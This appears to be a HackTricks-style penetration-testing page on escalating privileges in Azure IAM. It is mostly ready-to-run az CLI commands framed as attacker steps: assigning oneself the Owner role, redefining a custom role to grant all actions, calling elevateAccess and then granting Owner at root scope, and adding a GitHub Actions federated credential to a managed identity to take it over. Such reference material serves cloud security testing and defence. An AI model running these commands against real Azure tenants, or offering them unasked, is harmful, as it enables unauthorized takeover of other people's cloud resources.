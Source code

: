 # Az - Azure IAM Privesc (Authorization)

{{#include ../../../banners/hacktricks-training.md}}

## Azure IAM

Fore more information check:

{{#ref}}
../az-services/az-azuread.md
{{#endref}}

### Microsoft.Authorization/roleAssignments/write

This permission allows to assign roles to principals over a specific scope, allowing an attacker to escalate privileges by assigning himself a more privileged role:

```bash
# Example
az role assignment create --role Owner --assignee "24efe8cf-c59e-45c2-a5c7-c7e552a07170" --scope "/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.KeyVault/vaults/testing-1231234"
```

### Microsoft.Authorization/roleDefinitions/Write

This permission allows to modify the permissions granted by a role, allowing an attacker to escalate privileges by granting more permissions to a role he has assigned.

Create the file `role.json` with the following **content**:

```json
{
  "Name": "<name of the role>",
  "IsCustom": true,
  "Description": "Custom role with elevated privileges",
  "Actions": ["*"],
  "NotActions": [],
  "DataActions": ["*"],
  "NotDataActions": [],
  "AssignableScopes": ["/subscriptions/<subscription-id>"]
}
```

Then update the role permissions with the previous definition calling:

```bash
az role definition update --role-definition role.json
```

### Microsoft.Authorization/elevateAccess/action

This permissions allows to elevate privileges and be able to assign permissions to any principal to Azure resources. It's meant to be given to Entra ID Global Administrators so they can also manage permissions over Azure resources.

> [!TIP]
> I think the user need to be Global Administrator in Entrad ID for the elevate call to work.

```bash
# Call elevate
az rest --method POST --uri "https://management.azure.com/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"

# Grant a user the Owner role
az role assignment create --assignee "<obeject-id>" --role "Owner" --scope "/"
```

### Microsoft.ManagedIdentity/userAssignedIdentities/federatedIdentityCredentials/write

This permission allows to add Federated credentials to managed identities. E.g. give access to Github Actions in a repo to a managed identity. Then, it allows to **access any user defined managed identity**.

Example command to give access to a repo in Github to the a managed identity:

```bash
# Generic example:
az rest --method PUT \
  --uri "https://management.azure.com//subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<managed-identity-name>/federatedIdentityCredentials/<name-new-federated-creds>?api-version=2023-01-31" \
  --headers "Content-Type=application/json" \
  --body '{"properties":{"issuer":"https://token.actions.githubusercontent.com","subject":"repo:<org-name>/<repo-name>:ref:refs/heads/<branch-name>","audiences":["api://AzureADTokenExchange"]}}'

# Example with specific data:
az rest --method PUT \
  --uri "https://management.azure.com//subscriptions/92913047-10a6-2376-82a4-6f04b2d03798/resourceGroups/Resource_Group_1/providers/Microsoft.ManagedIdentity/userAssignedIdentities/funcGithub-id-913c/federatedIdentityCredentials/CustomGH2?api-version=2023-01-31" \
  --headers "Content-Type=application/json" \
  --body '{"properties":{"issuer":"https://token.actions.githubusercontent.com","subject":"repo:carlospolop/azure_func4:ref:refs/heads/main","audiences":["api://AzureADTokenExchange"]}}'
```

{{#include ../../../banners/hacktricks-training.md}}





